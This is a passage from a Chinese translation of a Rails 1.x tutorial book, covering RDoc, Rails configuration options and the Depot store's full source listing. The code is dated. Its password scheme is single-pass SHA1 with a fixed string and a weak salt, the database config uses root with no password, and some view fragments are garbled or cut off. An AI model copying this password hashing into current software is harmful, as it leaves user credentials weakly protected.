`for_dave` 方法被硬编码为返回一个 `Person` 对象，所以 `Employee.for_dave` 返回的也是 `Person`。使用 `self.new` 代替，则会返回接收者类（`Employee`）的一个新对象。

#### `require File.dirname(__FILE__) + '/../test_helper'`

Ruby 的 `require` 方法将外部源文件加载到我们的应用程序中。这用于包含我们的应用程序所依赖的库代码和类。在正常使用中，Ruby 通过在目录列表（即 `LOAD_PATH`）中搜索来查找这些文件。

有时我们需要明确指定要包含的文件。我们可以通过向 `require` 提供完整的文件系统路径来实现。问题在于，我们不知道该路径会是什么——我们的用户可能将我们的代码安装在任何地方。

无论我们的应用程序最终安装在哪里，执行 require 的文件与目标文件之间的相对路径是相同的。了解这一点后，我们可以通过取执行 require 的文件的绝对路径（在特殊变量 `__FILE__` 中可用），去掉除目录名之外的所有部分，然后附加到目标文件的相对路径，来构建指向目标文件的绝对路径。

### A.14 RDoc 文档

RDoc 是一个针对 Ruby 源代码的文档系统。就像 JavaDoc 一样，RDoc 接收一堆源文件并生成 HTML 文档，使用源代码中的语法信息和注释块中的文本。与 JavaDoc 不同的是，即使源代码没有注释，RDoc 也能生成相当不错的内容。在编写应用程序源代码的同时编写 RDoc 文档是相当轻松的。RDoc 在 *PickAxe* 一书的第 16 章中有描述。

RDoc 用于为 Ruby 的内置和标准库编写文档。根据你的 Ruby 安装方式，你可能可以使用 `ri` 命令来访问文档。

```
dave> ri String.capitalize
-------------------------------------- String#capitalize

    str.capitalize    => new_str
--------------------------------------

    Returns a copy of str with the first character converted to
    uppercase and the remainder to lowercase.

    "hello".capitalize    #=> "Hello"
    "HELLO".capitalize    #=> "Hello"
    "123ABC".capitalize   #=> "123abc"
```

如果你使用 RubyGems 安装了 Rails，你可以通过运行 `gem_server`，然后将浏览器指向 URL `http://localhost:8808` 来访问 Rails API 文档。

`rake doc:app` 任务会为 Rails 项目创建 HTML 文档，并将其放在 `doc/app` 目录中。

## 附录 B：配置参数

如第 241 页所述，Rails 可以通过设置全局 `environment.rb` 文件中的选项，或在 `config/environments` 目录中的某个环境特定文件中进行配置。

Rails 通过一个 `Rails::Configuration` 类的对象进行配置。该对象在 `environment.rb` 文件中创建，并通过变量 `config` 在各种配置文件中传递。较旧的 Rails 应用程序过去常将配置选项直接设置到 Rails 类中，但这现已弃用。与其编写

```ruby
ActiveRecord::Base.table_name_prefix = "app_"
```

你现在应该编写（在环境文件的上下文中）

```ruby
config.active_record.table_name_prefix = "app_"
```

在下面的列表中，我们在每个 Rails 组件内按字母顺序显示选项。

### B.1 顶级配置

-   **`config.breakpoint_server = true | false`**
    是否使用断点服务器。
-   **`config.cache_classes = true | false`**
    类是否应该被缓存（保留在内存中）或在每次请求开始时重新加载。在开发环境中默认设置为 `false`。
-   **`config.connection_adapters = [ ... ]`**
    要加载的数据库连接适配器列表。默认情况下，加载所有连接适配器。你可以将其设置为仅包含你将使用的适配器，以减少应用程序的加载时间。在撰写本文时，默认值是
    ```ruby
    %w( mysql postgresql sqlite firebird sqlserver db2 oracle sybase openbase frontbase )
    ```
-   **`config.controller_paths = %w( app/controllers components )`**
    应搜索控制器的路径列表。
-   **`config.database_configuration_file = "config/database.yml"`**
    要使用的数据库配置文件的路径。
-   **`config.frameworks = [ :active_record, :action_controller, :action_view, :action_mailer, :action_web_service ]`**
    应加载的 Rails 框架组件列表。你可以通过移除未使用的组件来加快应用程序加载速度。
-   **`config.load_paths = [dir..]`**
    Ruby 加载库时要搜索的路径。默认为：
    -   当前环境的 mocks 目录
    -   `app/controllers` 及其子目录
    -   `app`、`app/models`、`app/helpers`、`app/services`、`app/apis`、`components`、`config`、`lib` 和 `vendor`
    -   Rails 库
-   **`config.load_once_paths = [ ... ]`**
    如果你的应用程序中有在请求之间不会更改的自动加载组件，你可以将它们的路径添加到此参数中，以阻止 Rails 重新加载它们。默认情况下，所有自动加载的插件都在此列表中，因此在开发模式下，插件不会在每次请求时重新加载。
-   **`config.log_level = :debug | :info | :error | :fatal`**
    应用程序范围的日志级别。在开发和测试环境中设置为 `:debug`，在生产环境中设置为 `:info`。
-   **`config.log_path = log/environment.log`**
    日志文件的路径。默认情况下，这是一个位于 `log` 目录中的文件，以当前环境命名。
-   **`config.logger = Logger.new(...)`**
    要使用的日志对象。默认情况下，Rails 使用一个 `Logger` 类的实例，初始化为使用给定的 `log_path` 并按给定的 `log_level` 记录日志。
-   **`config.plugin_paths = "vendor/plugins"`**
    插件目录根目录的路径。
-   **`config.view_path = "app/views"`**
    在何处查找视图模板。
-   **`config.whiny_nils = true | false`**
    如果设置为 `true`，Rails 将尝试拦截你对未初始化对象调用方法的时刻。例如，如果你的 `@orders` 变量未设置并且你调用 `@orders.each`，Ruby 通常只会说类似 "undefined method 'each' for nil." 的信息。启用 `whiny_nils` 后，Rails 会拦截此信息并转而说你可能期望一个数组。在开发模式下默认开启。

### B.2 Active Record 配置

-   **`config.active_record.allow_concurrency = true | false`**
    如果为 `true`，则每个线程将使用一个单独的数据库连接。因为 Rails 在用于提供 Web 应用程序服务时不是线程安全的，所以此变量默认为 `false`。如果你正在编写一个多线程应用程序，并在 Rails 其他部分之外使用 Active Record，你可以考虑（谨慎地）将其设置为 `true`。
-   **`config.active_record.colorize_logging = true | false`**
    默认情况下，Active Record 日志消息包含嵌入的 ANSI 控制序列，当使用支持这些序列的终端应用程序查看时，会为某些行着色。将此选项设置为 `false` 可以移除此着色。
-   **`config.active_record.default_timezone = :local | :utc`**
    设置为 `:utc` 会使从数据库加载和保存到数据库的日期和时间被视为 UTC 时间。
-   **`config.active_record.generate_read_methods = true | false`**
    默认值为 `true` 意味着当你第一次访问模型的某个属性时，Active Record 将为该属性生成一个常规的 Ruby 方法。如果为 `false`，Active Record 则使用 `method_missing` 来拦截对读取属性的每次调用。前者更快，但后者在开发模式下某些特殊情况下很有用（例如，如果你删除了表中的一列，并且需要确保相应的访问器在后续请求中消失）。
-   **`config.active_record.lock_optimistically = true | false`**
    如果为 `false`，则禁用乐观锁。（参见第 390 页第 19.4 节“乐观锁”。）
-   **`config.active_record.logger = logger`**
    接受一个日志记录器对象，该对象应与 Log4R 接口兼容。这在内部用于记录数据库活动。它也可供希望通过 `logger` 属性记录活动的应用程序使用。
-   **`config.active_record.pluralize_table_names = true | false`**
    如果为 `false`，在创建相应的表名时，类名将不会被复数化。


config.active_record.primary_key_prefix_type = 选项
        如果选项为 nil，则每个表的主键列默认名称为 id。如果为 :table_name，则会前置表名。通过将选项设置为 :table_name_with_underscore 值，可以在表名和 id 部分之间添加下划线。

config.active_record.record_timestamps = true | false
        设置为 false 以禁用对 created_at、created_on、updated_at 和 updated_on 列的自动更新。这在第 376 页有描述。

config.active_record.table_name_prefix = "前缀"
        生成表名时前置给定的字符串。例如，如果模型名称为 User 且前缀字符串为 "myapp-"，Rails 将查找表 myapp-users。如果必须在不同应用程序之间共享数据库，或者必须在同一个数据库中进行开发和测试，这可能很有用。

config.active_record.table_name_suffix = "后缀"
        生成表名时追加给定的字符串。

config.schema_format = :sql | :ruby
        控制导出数据库架构时使用的格式。在运行测试时这很重要，因为 Rails 使用从开发环境导出的架构来填充测试数据库。:ruby 格式会创建一个看起来像大型迁移的文件：它可以被可移植地用于将架构加载到任何支持的数据库（允许你在开发和测试中使用不同的数据库类型）。然而，以此方式导出的架构仅包含迁移支持的内容。如果你在原始迁移中使用了任何 execute 语句，那么在导出架构时它们很可能会丢失。

        如果你指定 :sql 作为格式，数据库将使用特定于该数据库的格式进行导出。所有架构细节都将被保留，但你将无法使用此导出来在不同类型的数据库中创建架构。

#### 杂项 Active Record 配置

这些参数使用旧式、赋值给属性的语法进行设置。

`ActiveRecord::Errors.default_error_messages` = 哈希
        标准验证失败消息的哈希。你可以用自己的消息替换这些，可能出于国际化目的。默认集合是

`ActiveRecord::Errors.default_error_messages` = {
  :inclusion => "未包含在列表中",
  :exclusion => "已被保留",
  :invalid => "无效",
  :confirmation => "与确认值不匹配",
  :accepted => "必须接受",
  :empty => "不能为空",
  :blank => "不能为空白",
  :too_long => "太长（最大 %d 个字符）",
  :too_short => "太短（最小 %d 个字符）",
  :wrong_length => "长度错误（应为 %d 个字符）",
  :taken => "已被占用",
  :not_a_number => "不是数字"
}

`ActiveRecord::Migration.verbose` = true | false
如果为 true（默认值），迁移会向控制台报告其操作。

`ActiveRecord::SchemaDumper.ignore_tables` = [ ... ]
字符串或正则表达式的数组。如果 schema_format 设置为 :ruby，则名称与此数组中的条目匹配的表将不会被导出。（但是，如果是这种情况，你可能不应该使用 :ruby 架构格式。）

### B.3 Action Controller 配置

`config.action_controller.asset_host` = url
设置使用资产辅助标签链接的样式表和图像资产的主机和/或路径。默认为应用程序的 public_html 目录。

`config.action_controller.asset_host` = "http://media.my.url"

`config.action_controller.consider_all_requests_local` = true | false
默认设置为 true 意味着所有异常都将在浏览器中显示错误和回溯信息。在生产环境中设置为 false 以阻止用户看到此信息。

`config.action_controller.default_charset` = "utf-8"
模板渲染的默认字符集。

`config.action_controller.debug_routes` = true | false
尽管已定义，但此参数不再使用。

`config.action_controller.fragment_cache_store` = 缓存类
确定用于存储缓存片段的机制。片段缓存存储在第 519 页讨论。

`config.action_controller.ignore_missing_templates` = false | true
如果为 true，则在找不到模板时不会引发错误。这在测试期间可能有用。

`config.action_controller.logger` = 日志器
设置此控制器使用的日志器。日志器对象也可供你的应用程序代码使用。

`config.action_controller.page_cache_directory` = 目录
缓存文件存储的位置。必须是你的 Web 服务器的文档根目录。默认为你的应用程序的 public 目录。

`config.action_controller.page_cache_extension` = 字符串
覆盖用于缓存文件的默认 .html 扩展名。

`config.action_controller.param_parsers[:类型]` = 过程
注册一个解析器来解码传入的内容类型，自动从传入数据填充 params 哈希。Rails 默认会解析传入的 application/xml 数据，并附带一个用于 YAML 数据的解析器。更多详情请参阅 API 文档。

`config.action_controller.perform_caching` = true | false
设置为 false 以禁用所有缓存。（缓存在开发和测试中默认禁用，在生产中启用。）

`config.action_controller.session_store` = 名称或类
确定用于存储会话的机制。这在第 [441](#) 页开始讨论。

`config.action_controller.template_class` = 类
默认为 `ActionView::Base`。你可能不需要更改此设置。

`config.action_controller.template_root` = 目录
在此目录下查找模板文件。默认为 app/views。

`config.action_controller.view_controller_internals` = true | false
模板通常可以访问控制器属性 request、response、session 和 template。将此选项设置为 false 可移除此访问权限。

### B.4 Action View 配置

`config.action_view.cache_template_extensions` = false | true
如果为 true，当 Rails 首次找到与给定名称匹配的模板时，它在查找该名称时将始终使用该模板。如果为 false（开发环境中的默认值），它将查找具有映射到该名称的不同文件扩展名的新添加模板。

`config.action_view.cache_template_loading` = false | true
开启以缓存模板的渲染，这可以提高性能。但是，如果你更改磁盘上的模板，则需要重启服务器。默认为 false，因此模板不会被缓存。

`config.action_view.debug_rjs` = true | false
如果为 true，RJS 生成的 JavaScript 将被包装在异常处理程序中，该处理程序将在出错时显示浏览器端的警告框。

`config.action_view.erb_trim_mode` = "-"
确定 ERb 如何处理 rhtml 模板中的行。参见第 **470** 页的讨论。

`config.action_view.field_error_proc` = 过程
这个 Ruby 过程被调用来包装验证失败的表单字段。默认值是

```ruby
Proc.new do |html_tag, instance|
  %{<div class="fieldWithErrors">#{html_tag}</div>}
end
```

### B.5 Action Mailer 配置

这些设置的使用在第 **24.1** 节 *电子邮件配置*（第 **568** 页）中描述。

`config.action_mailer.default_charset` = "utf-8"
电子邮件的默认字符集。

`config.action_mailer.default_content_type` = "text/plain"
电子邮件的默认内容类型。

`config.action_mailer.default_implicit_parts_order` = %w( text/html text/enriched text/plain)
我们在第 **575** 页看到，如果 Rails 找到名为 `xxx.text/plain.rhtml`、`xxx.text.html.rhtml` 等的模板文件，它将自动生成多部分消息。此参数确定这些部分添加到电子邮件中的顺序，因此也决定了电子邮件客户端赋予它们的优先级。

`config.action_mailer.default_mime_version` = "1.0"
电子邮件的默认 MIME 版本。

`config.action_mailer.delivery_method` = :smtp | :sendmail | :test
确定电子邮件的传递方式。与 `session_settings` 一起使用。参见第 **569** 页开始的描述。

`config.action_mailer.logger` = 日志器
设置此项以覆盖邮件程序使用的默认日志器。（如果未设置，则使用整体应用程序日志器。）

`config.action_mailer.perform_deliveries` = true | false
如果为 false，邮件程序将不会传递电子邮件。


### B.6 测试用例配置

`config.action_mailer.raise_delivery_errors = true | false`
如果设置为 true，当邮件发送失败时会引发异常。请注意，Rails 仅知晓邮件移交给邮件传输代理的初始环节：它无法判断邮件是否实际送达收件人。此参数在测试环境中为 true，但在其他环境中默认为 false。

`config.action_mailer.server_settings = *hash*`
参见从第569页开始的描述。

`config.action_mailer.template_root = "app/views"`
Action Mailer 在此目录下查找模板。

以下选项可以全局设置，但更常见的是在特定测试用例体内设置。

```
# Global setting
Test::Unit::TestCase.use_transactional_fixtures = true

# Local setting
class WibbleTest < Test::Unit::TestCase
  self.use_transactional_fixtures = true
  # ...
end
```

`pre_loaded_fixtures = false | true`
如果设置为 true，测试用例会假定夹具数据在测试运行前已加载到数据库中。与事务性夹具结合使用可加快测试运行速度。

`use_instantiated_fixtures = true | false | :no_instances`
将此选项设置为 false（默认值）会禁用将夹具数据自动加载到实例变量的功能。将其设置为 :no_instances 会创建实例变量，但不会填充数据。

`use_transactional_fixtures = true | false`
如果设置为 true（默认值），数据库的更改将在每个测试结束时回滚。

## 附录 C

## 源代码

本附录包含我们为最终的 Depot 应用程序创建的文件的完整清单，以及我们修改过的生成文件。

所有代码均可从我们的网站下载：

- [http://pragmaticprogrammer.com/titles/rails2/code.html](http://pragmaticprogrammer.com/titles/rails2/code.html)

### C.1 完整的 Depot 应用程序

#### 数据库配置与迁移

```
# Download depot_r/config/database.yml

development:
  adapter: mysql
  database: depot_development
  username: root
  password:
  host: localhost

test:
  adapter: mysql
  database: depot_test
  username: root
  password:
  host: localhost

production:
  adapter: mysql
  database: depot_production
  username: root
  password:
  host: localhost
```

```
# Download depot_r/db/migrate/001_create_products.rb

class CreateProducts < ActiveRecord::Migration
  def self.up
    create_table :products do |t|
      t.column :title,      :string
      t.column :description, :text
      t.column :image_url,  :string
    end
  end

  def self.down
    drop_table :products
  end
end
```

```
class AddPrice < ActiveRecord::Migration
  def self.up
    add_column :products, :price, :decimal, :precision => 8, :scale => 2, :default => 0
  end

  def self.down
    remove_column :products, :price
  end
end
```

```
class AddTestData < ActiveRecord::Migration
  def self.up
    Product.delete_all
    Product.create(:title => 'Pragmatic Project Automation',
    :description =>
    %{<p>
      <em>Pragmatic Project Automation</em> shows you how to improve the
      consistency and repeatability of your project's procedures using
      automation to reduce risk and errors.
    </p>
    <p>
      Simply put, we're going to put this thing called a computer to work
      for you doing the mundane (but important) project stuff. That means
      you'll have more time and energy to do the really
      exciting--and difficult--stuff, like writing quality code.
    </p>},
    :image_url => '/images/auto.jpg',
    :price => 29.95)

    Product.create(:title => 'Pragmatic Version Control',
      :description =>
      %{<p>
        This book is a recipe-based approach to using Subversion that will
        get you up and running quickly--and correctly. All projects need version control:
        it's a foundational piece of any project's infrastructure. Yet half
        of all project teams in the U.S. don't use any version control at all.
        Many others don't use it well, and end up experiencing time-consuming problems.
      </p>},
    :image_url => '/images/svn.jpg',
    :price => 28.50)

    # . . .

    Product.create(:title => 'Pragmatic Unit Testing (C#)',
      :description =>
      %{<p>
        Pragmatic programmers use feedback to drive their development and
        personal processes. The most valuable feedback you can get while
        coding comes from unit testing.
      </p>
      <p>
        Without good tests in place, coding can become a frustrating game of
        "whack-a-mole." That's the carnival game where the player strikes at a
        mechanical mole; it retreats and another mole pops up on the opposite side
        of the field. The moles pop up and down so fast that you end up flailing
        your mallet helplessly as the moles continue to pop up where you least
        expect them.
      </p>},
      :image_url => '/images/utc.jpg',
      :price => 27.75)
  end

  def self.down
    Product.delete_all
  end
end
```

```
class AddSessions < ActiveRecord::Migration
  def self.up
    create_table :sessions do |t|
      t.column :session_id, :string
      t.column :data, :text
      t.column :updated_at, :datetime
    end

    add_index :sessions, :session_id
  end

  def self.down
    drop_table :sessions
  end
end
```

```
class CreateOrders < ActiveRecord::Migration
  def self.up
    create_table :orders do |t|
      t.column :name, :string
      t.column :address, :text
      t.column :email, :string
      t.column :pay_type, :string, :limit => 10
    end
  end

  def self.down
    drop_table :orders
  end
end
```

```
class CreateLineItems < ActiveRecord::Migration
  def self.up
    create_table :line_items do |t|
      t.column :product_id,   :integer, :null => false
      t.column :order_id,     :integer, :null => false
      t.column :quantity,      :integer, :null => false
      t.column :total_price, :decimal, :null => false, :precision => 8, :scale => 2
    end

    execute "alter table line_items
                      add constraint fk_line_item_products
                      foreign key  (product_id) references products(id)"

    execute "alter table line_items
                      add constraint fk_line_item_orders
                      foreign key  (order_id) references orders(id)"
  end

  def self.down
    drop_table :line_items
  end
end
```

```
class CreateUsers < ActiveRecord::Migration
  def self.up
    create_table :users do |t|
      t.column :name,            :string
      t.column :hashed_password, :string
      t.column :salt,            :string
    end
  end

  def self.down
    drop_table :users
  end
end
```

#### 控制器

```
class ApplicationController < ActionController::Base

  private

  def authorize
    unless User.find_by_id(session[:user_id])
      flash[:notice] = "Please log in"
      redirect_to(:controller => "login", :action => "login")
    end
  end
end
```

```
# Download depot_r/app/controllers/admin_controller.rb

class AdminController < ApplicationController

  before_filter :authorize

  # ....

  def index
    list
    render :action => 'list'
  end

  def list
    @product_pages, @products = paginate :products, :per_page => 10
  end

  def show
    @product = Product.find(params[:id])
  end

  def new
    @product = Product.new
  end

  def create
    @product = Product.new(params[:product])
    if @product.save
      flash[:notice] = 'Product was successfully created.'
      redirect_to :action => 'list'
    else
      render :action => 'new'
    end
  end

  def edit
    @product = Product.find(params[:id])
  end

  def update
    @product = Product.find(params[:id])
    if @product.update_attributes(params[:product])
      flash[:notice] = 'Product was successfully updated.'
      redirect_to :action => 'show', :id => @product
    else
      render :action => 'edit'
    end
  end

  def destroy
    Product.find(params[:id]).destroy
    redirect_to :action => 'list'
  end
end
```

```
class InfoController < ApplicationController

  def who_bought
    @product = Product.find(params[:id])
    @orders  = @product.orders
    respond_to do |format|
      format.html
      format.xml
    end
  end
end
```

```
class LoginController < ApplicationController

  before_filter :authorize, :except => :login
  # . .

  layout "admin"

  def index
    @total_orders = Order.count
  end

  # just display the form and wait for user to
  # enter a name and password
  def login
    session[:user_id] = nil
    if request.post?
      user = User.authenticate(params[:name], params[:password])
      if user
        session[:user_id] = user.id
        redirect_to(:action => "index")
      else
        flash[:notice] = "Invalid user/password combination"
      end
    end
  end

  def add_user
    @user = User.new(params[:user])
    if request.post? and @user.save
      flash.now[:notice] = "User #{@user.name} created"
      @user = User.new
    end
  end
end
```


# . . .

```ruby
def delete_user
  if request.post?
    user = User.find(params[:id])
    begin
      user.destroy
      flash[:notice] = "User #{user.name} deleted"
    rescue Exception => e
      flash[:notice] = e.message
    end
  end
  redirect_to(:action => :list_users)
end
```

```ruby
def list_users
  @all_users = User.find(:all)
end
```

```ruby
def logout
  session[:user_id] = nil
  flash[:notice] = "Logged out"
  redirect_to(:action => "login")
end
```

```ruby
class StoreController < ApplicationController
  before_filter :find_cart, :except => :empty_cart

  def index
    @products = Product.find_products_for_sale
  end

  def add_to_cart
    begin
      product = Product.find(params[:id])
    rescue ActiveRecord::RecordNotFound
      logger.error("Attempt to access invalid product #{params[:id]}")
      redirect_to_index("Invalid product")
    else
      @current_item = @cart.add_product(product)
      redirect_to_index unless request.xhr?
    end
  end

  def empty_cart
    session[:cart] = nil
    redirect_to_index
  end

  def checkout
    if @cart.items.empty?
      redirect_to_index("Your cart is empty")
    else
      @order = Order.new
    end
  end

  def save_order
    @order = Order.new(params[:order])
    @order.add_line_items_from_cart(@cart)
    if @order.save
      session[:cart] = nil
      redirect_to_index("Thank you for your order")
    else
      render :action => :checkout
    end
  end

  private

  def redirect_to_index(msg = nil)
    flash[:notice] = msg if msg
    redirect_to :action => :index
  end

  def find_cart
    @cart = (session[:cart] ||= Cart.new)
  end
end
```

##### 模型

```ruby
class Cart
  attr_reader :items

  def initialize
    @items = []
  end

  def add_product(product)
    current_item = @items.find {|item| item.product == product}
    if current_item
      current_item.increment_quantity
    else
      current_item = CartItem.new(product)
      @items << current_item
    end
    current_item
  end

  def total_items
    @items.sum { |item| item.quantity }
  end

  def total_price
    @items.sum { |item| item.price }
  end
end
```

下载 depot_r/app/models/cart_item.rb

```ruby
class CartItem
  attr_reader :product, :quantity

  def initialize(product)
    @product = product
    @quantity = 1
  end

  def increment_quantity
    @quantity += 1
  end

  def title
    @product.title
  end

  def price
    @product.price * @quantity
  end
end
```

下载 depot_r/app/models/line_item.rb

```ruby
# Schema as of June 12, 2006 15:45 (schema version 7)
#
# Table name: line_items
#
# id           :integer(11)   not null, primary key
# product_id   :integer(11)   default(0), not null
# order_id     :integer(11)   default(0), not null
# quantity     :integer(11)   default(0), not null
# total_price  :integer(11)   default(0), not null
#

class LineItem < ActiveRecord::Base
  belongs_to :order
  belongs_to :product

  def self.from_cart_item(cart_item)
    li = self.new
    li.product      = cart_item.product
    li.quantity     = cart_item.quantity
    li.total_price = cart_item.price
    li
  end
end
```

下载 depot_r/app/models/order.rb

```ruby
# Schema as of June 12, 2006 15:45 (schema version 7)
#
# Table name: orders
#
# id        :integer(11)   not null, primary key
# name      :string(255)
# address   :text
# email     :string(255)
# pay_type  :string(10)
#

class Order < ActiveRecord::Base
  has_many :line_items

  PAYMENT_TYPES = [
    #  Displayed          stored in db
    [ "Check",            "check" ],
    [ "Credit card",      "cc"    ],
    [ "Purchase order",   "po"    ]
  ]

  # ...

  validates_presence_of :name, :address, :email, :pay_type
  validates_inclusion_of :pay_type, :in => PAYMENT_TYPES.map {|disp, value| value}

  # ...

  def add_line_items_from_cart(cart)
    cart.items.each do |item|
      li = LineItem.from_cart_item(item)
      line_items << li
    end
  end
end
```

下载 depot_r/app/models/product.rb

```ruby
# Schema as of June 12, 2006 15:45 (schema version 7)
#
# Table name: products
#
# id          :integer(11)   not null, primary key
# title       :string(255)
# description :text
# image_url   :string(255)
# price       :integer(11) default(0)
#

class Product < ActiveRecord::Base
  has_many :orders, :through => :line_items
  has_many :line_items

  def self.find_products_for_sale
    find(:all, :order => "title")
  end

  validates_presence_of :title, :description, :image_url
  validates_numericality_of :price
  validates_uniqueness_of :title
  validates_format_of :image_url,
                      :with => %r{\.(gif|jpg|png)$}i,
                      :message => "must be a URL for a GIF, JPG, or PNG image"

  protected

  def validate
    errors.add(:price, "should be at least 0.01") if price.nil? || price < 0.01
  end
end
```

下载 depot_r/app/models/user.rb

```ruby
# Schema as of June 12, 2006 15:45 (schema version 7)
#
# Table name: users
#
# id              :integer(11) not null, primary key
# name            :string(255)
# hashed_password :string(255)
# salt            :string(255)
#

require 'digest/sha1'

class User < ActiveRecord::Base
  validates_presence_of :name
  validates_uniqueness_of :name

  attr_accessor :password_confirmation
  validates_confirmation_of :password

  def validate
    errors.add_to_base("Missing password") if hashed_password.blank?
  end

  def self.authenticate(name, password)
    user = self.find_by_name(name)
    if user
      expected_password = encrypted_password(password, user.salt)
      if user.hashed_password != expected_password
        user = nil
      end
    end
    user
  end

  # 'password' is a virtual attribute
  def password
    @password
  end

  def password=(pwd)
    @password = pwd
    return if pwd.blank?
    create_new_salt
    self.hashed_password = User.encrypted_password(self.password, self.salt)
  end

  def after_destroy
    if User.count.zero?
      raise "Can't delete last user"
    end
  end

  private

  def create_new_salt
    self.salt = self.object_id.to_s + rand.to_s
  end

  def self.encrypted_password(password, salt)
    string_to_hash = password + "wibble" + salt
    Digest::SHA1.hexdigest(string_to_hash)
  end
end
```

##### 视图

###### 布局

```erb
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
          "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html>
<head>
  <title>管理书店</title>
  <%= stylesheet_link_tag "scaffold", "depot", :media => "all" %>
</head>
<body id="admin">
  <div id="banner">
    
    <%= @page_title || "Pragmatic Bookshelf" %>
  </div>
  <div id="columns">
    <div id="side">
      <p>
        <%= link_to "商品",  :controller => 'admin', :action => 'list' %>
      </p>
      <p>
        <%= link_to "用户列表", :controller => 'login', :action => 'list_users' %>
        <br/>
        <%= link_to "添加用户",   :controller => 'login', :action => 'add_user' %>
      </p>
      <p>
        <%= link_to "登出",     :controller => 'login', :action => 'logout' %>
      </p>
    </div>
    <div id="main">
      <% if flash[:notice] -%>
        <div id="notice"><%= flash[:notice] %></div>
      <% end -%>
      <%= yield :layout %>
    </div>
  </div>
</body>
</html>
```

下载 depot_r/app/views/layouts/store.rhtml

```erb
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
       "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html>
<head>
  <title>Pragprog 图书在线商店</title>
  <%= stylesheet_link_tag "depot", :media => "all" %>
  <%= javascript_include_tag :defaults %>
</head>
<body id="store">
  <div id="banner">
    
    <%= @page_title || "Pragmatic Bookshelf" %>
  </div>
  <div id="columns">
    <div id="side">
      <%= hidden_div_if(@cart.items.empty?, :id => "cart") do %>
        <%= render(:partial => "cart", :object => @cart) %>
      <% end %>
      <a href="http://www....">首页</a><br />
      <a href="http://www..../faq">问题咨询</a><br />
      <a href="http://www..../news">新闻</a><br />
      <a href="http://www../.../contact">联系我们</a><br />
    </div>
    <div id="main">
      <% if flash[:notice] -%>
        <div id="notice"><%= flash[:notice] %></div>
      <% end -%>
```

###### 管理后台视图

我们不展示未修改的脚手架模板源码。

下载 depot_r/app/views/admin/_form.rhtml

```
<%= error_messages_for 'product' %>

<!--[form:product]-->
<p><label for="product_title">Title</label><br/>
<%= text_field 'product', 'title' %></p>

<p><label for="product_description">Description</label><br/>
<%= text_area 'product', 'description' %></p>

<p><label for="product_image_url">Image url</label><br/>
<%= text_field 'product', 'image_url' %></p>

<p><label for="product_price">Price</label><br/>
<%= text_field 'product', 'price' %></p>
<!--[eoform:product]-->
```

下载 depot_r/app/views/admin/list.rhtml

```
<div id="product-list">
  <h1>商品列表</h1>

  <table cellpadding="5" cellspacing="0">
  <% for product in @products %>
    <tr valign="top" class="<%= cycle('list-line-odd', 'list-line-even') %>">

      <td>
        "/>
      </td>

      <td width="60%">
        <span class="list-title"><%= h(product.title) %></span><br />
        <%= h(truncate(product.description, 80)) %>
      </td>

      <td class="list-actions">
        <%= link_to 'Show', :action => 'show', :id => product %><br/>
        <%= link_to 'Edit', :action => 'edit', :id => product %><br/>
        <%= link_to 'Destroy', { :action => 'destroy', :id => product },
                                   :confirm => "Are you sure?",
                                   :method => :post %>
      </td>
    </tr>
  <% end %>
```

###### 登录视图

下载 depot_r/app/views/login/add_user.rhtml

```
<div class="depot-form">
  <%= error_messages_for 'user' %>
  <fieldset>
    <legend>输入用户详情</legend>
    <% form_for :user do |form| %>
      <p>
        <label for="user_name">名称：</label>
        <%= form.text_field :name, :size => 40 %>
      </p>
      <p>
        <label for="user_password">密码：</label>
        <%= form.password_field :password, :size => 40 %>
      </p>
      <p>
        <label for="user_password_confirmation">确认：</label>
        <%= form.password_field :password_confirmation, :size => 40 %>
      </p>
      <%= submit_tag "添加用户", :class => "submit" %>
    <% end %>
  </fieldset>
</div>
```

下载 depot_r/app/views/login/index.rhtml

```
<h1>欢迎</h1>
现在是 <%= Time.now %>。
我们有 <%= pluralize(@total_orders, "order") %>。
```

下载 depot_r/app/views/login/list_users.rhtml

```
<h1>管理员</h1>
<ul>
  <% for user in @all_users %>
    <li><%= link_to "[X]", { # link_to options
                            :controller => 'login',
                            :action => 'delete_user',
                            :id => user},
                        { # html options
                            :method  => :post,
                            :confirm => "Really delete #{user.name}?"
                          } %>
            <%= h(user.name) %>
    </li>
  <% end %>
</ul>
```

下载 depot_r/app/views/login/login.rhtml

```
<div class="depot-form">
  <fieldset>
    <legend>请登录</legend>

    <% form_tag do %>
      <p>
        <label for="name">名称：</label>
        <%= text_field_tag :name, params[:name] %>
      </p>

      <p>
        <label for="password">密码：</label>
        <%= password_field_tag :password, params[:password] %>
      </p>

      <p>
        <%= submit_tag "登录" %>
      </p>
    <% end %>
  </fieldset>
</div>
```

###### 商店视图

下载 depot_r/app/views/store/_cart.rhtml

```
<div class="cart-title">您的购物车</div>

<table>
  <%= render(:partial => "cart_item", :collection => cart.items) %>
  <tr class="total-line">
    <td colspan="2">总计</td>
    <td class="total-cell"><%= number_to_currency(cart.total_price) %></td>
  </tr>
</table>

<%= button_to "结算", :action => :checkout %>
<%= button_to "清空购物车", :action => :empty_cart %>
```

```
<% if cart_item == @current_item %>
  <tr id="current_item">
<% else %>
  <tr>
<% end %>
    <td><%= cart_item.quantity %>&times;</td>
    <td><%= h(cart_item.title) %></td>
    <td class="item-price"><%= number_to_currency(cart_item.price) %></td>
</tr>
```

```
page.select("div#notice").each { |div| div.hide }

page.replace_html("cart", :partial => "cart", :object => @cart)

page[:cart].visual_effect :blind_down if @cart.total_items == 1

page[:current_item].visual_effect :highlight,
                                   :startcolor => "#88ff88",
                                   :endcolor => "#114411"
```

```
<div class="depot-form">

  <%= error_messages_for 'order' %>

  <fieldset>
    <legend>请输入您的详情</legend>

    <% form_for :order, :url => { :action => :save_order } do |form| %>
      <p>
        <label for="order_name">名称：</label>
        <%= form.text_field :name, :size => 40 %>
      </p>

      <p>
        <label for="order_address">地址：</label>
        <%= form.text_area :address, :rows => 3, :cols => 40 %>
      </p>

      <p>
        <label for="order_email">电子邮件：</label>
        <%= form.text_field :email, :size => 40 %>
      </p>

      <p>
        <label for="order_pay_type">支付方式：</label>
        <%= form.select :pay_type,
          Order::PAYMENT_TYPES,
          :prompt => "选择一种支付方式"
        %>
      </p>

      <%= submit_tag "提交订单", :class => "submit" %>
    <% end %>
  </fieldset>
</div>
```

下载 depot_r/app/views/store/index.rhtml

```
<h1>您的实用商品目录</h1>

<% for product in @products -%>
